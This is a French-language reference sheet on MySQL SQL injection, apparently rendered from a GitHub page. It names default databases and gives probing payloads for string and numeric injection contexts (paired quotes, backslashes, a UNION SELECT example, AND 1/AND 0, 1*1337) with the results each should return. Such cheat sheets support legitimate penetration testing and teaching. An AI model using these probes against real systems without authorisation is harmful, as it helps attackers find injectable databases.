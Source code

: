 ## Bases de données par défaut

|     |     |
| --- | --- |
| mysql | Nécessite les privilèges root |
| information_schema | Disponible depuis la version 5 |

## Tester une injection

### Injection dans une chaîne de caractères

**Pour la requête suivante :**
SELECT * FROM Table WHERE data = '[INJ]';

|     |     |     |
| --- | --- | --- |
| ‘   | Simple quote x1 | False |
| ‘ ‘ | Simple quote x2 | True |
| «   | Double quote x1 | False |
| «  » | Double quote x2 | True |
| \   | Backslash x1 | False |
| \\  | Backslash x2 | True |

**Exemples :**
SELECT * FROM Table WHERE data = 'xxx''';
SELECT * FROM Table WHERE data = '1'''''''''''UNION SELECT '2';
**Remarques :**

- Il est possible d’utiliser autant d’apostrophe (*quote*) et de guillemet (*double-quote*) tant qu’ils vont par paire.
- Il est possible de continuer la requête à la suite d’une chaîne de quote.
- Une quote échappe une seconde quote, d’où le chaînage par paire.

### Injection par valeurs numériques

**Pour la requête suivante :**
SELECT * FROM Table WHERE data = [INJ];

|     |     |
| --- | --- |
| AND 1 | True |
| AND 0 | False |
| AND true | True |
| AND false | False |
| 1-false | Retourne 1 si vulnérable |
| 1-true | Retourne 0 si vulnérable |
| 1*1337 | Retourne 1337 si vulnérable |
